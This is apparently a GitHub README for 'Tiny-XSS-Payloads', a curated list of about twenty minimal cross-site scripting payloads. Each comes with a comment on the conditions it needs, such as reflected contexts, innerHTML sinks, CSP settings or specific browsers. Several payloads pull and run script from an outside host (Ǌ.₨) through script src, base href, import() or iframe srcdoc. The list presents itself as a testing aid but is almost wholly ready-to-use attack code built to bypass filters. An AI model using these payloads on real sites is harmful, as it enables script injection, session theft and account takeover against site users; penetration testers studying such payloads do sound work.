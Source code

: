 # Tiny-XSS-Payloads

This is a curated set of small but powerful Cross-Site Scripting (XSS) payloads 💥 designed to exploit vulnerabilities in different web application contexts. These payloads can be used to test and identify weak points in web security 🔐. A collection of short XSS payloads that can be used in different contexts.

The DEMO available here: <https://tiny-xss-payloads.netlify.app/>

📚 Why Tiny Payloads?
------------------------------
⚡ Lightweight: Easily bypass filters due to their minimal size.

🎯 Targeted: Crafted for specific scenarios (e.g., HTML, JavaScript, URLs).

🛡️ Efficient Testing: Quick checks for XSS vulnerabilities.

## Current Payloads

```html
<!-- Requires a relative script inserted to the DOM after the sink, 
  e.g. <base/href=//Ǌ.₨> ... <script src=/aaa></script> -->
<base/href=//Ǌ.₨>
```

```html
<!-- Only works as reflected XSS -->
<svg/onload=eval(name)>
```

```html
<!-- If you control the URL -->
<svg/onload=eval(`'`+URL)>
```

```html
<!-- If you control the name, but unsafe-eval not enabled -->
<svg/onload=location=name>
```

```html
<!-- In chrome, also works inside innerHTML, even on elements not yet inserted into DOM -->
<svg><svg/onload=eval(name)>
```

```html
<!-- If you control window's name, this payload will work inside innerHTML, even on elements not yet inserted into the DOM -->
<audio/src/onerror=eval(name)>
```

```html
<!-- If you control the URL, this payload will work inside innerHTML, even on elements not yet inserted into the DOM -->
<img/src/onerror=eval(`'`+URL)>
```

```html
<!-- Just a casual script -->
<script/src=//Ǌ.₨></script>
```

```html
<!-- If you control the name of the window -->
<iframe/onload=src=top.name>
```

```html
<!-- If you control the URL -->
<iframe/onload=eval(`'`+URL)>
```

```html
<!-- If number of iframes on the page is constant -->
<iframe/onload=src=top[0].name+/\Ǌ.₨?/>
```

```html
<!-- for Firefox only -->
<iframe/srcdoc="<svg><script/href=//Ǌ.₨ />">
```

```html
<!-- If number of iframes on the page is random -->
<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>
```

```html
<!-- If unsafe-inline is disabled in CSP and external scripts allowed -->
<iframe/srcdoc="<script/src=//Ǌ.₨></script>">
```

```html
<!-- If inline styles are allowed -->
<style/onload=eval(name)>
```

```html
<!-- If inline styles are allowed and the URL can be controlled -->
<style/onload=eval(`'`+URL)>
```

```html
<!-- If inline styles are blocked -->
<style/onerror=eval(name)>
```

```html
<!-- Uses external script as import, doesn't work in innerHTML -->
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<svg/onload=import(/\\Ǌ.₨/)>
```

```html
<!-- Uses external script as import,  triggers if inline styles are allowed.
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<style/onload=import(/\\Ǌ.₨/)>
```

```html
<!-- Uses external script as import -->
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<iframe/onload=import(/\\Ǌ.₨/)>
```

Deprecated:

```html
<!-- If you control the URL, Safari-only -->
<iframe/onload=write(URL)>
```

```html
<!-- If inline styles are allowed, Safari only -->
<style/onload=write(URL)>
```
Information
------------------

Author❤️: [UTTAM BODARA](https://buymeacoffee.com/uttambodara)

License💀: [MIT License](https://opensource.org/licenses/MIT)
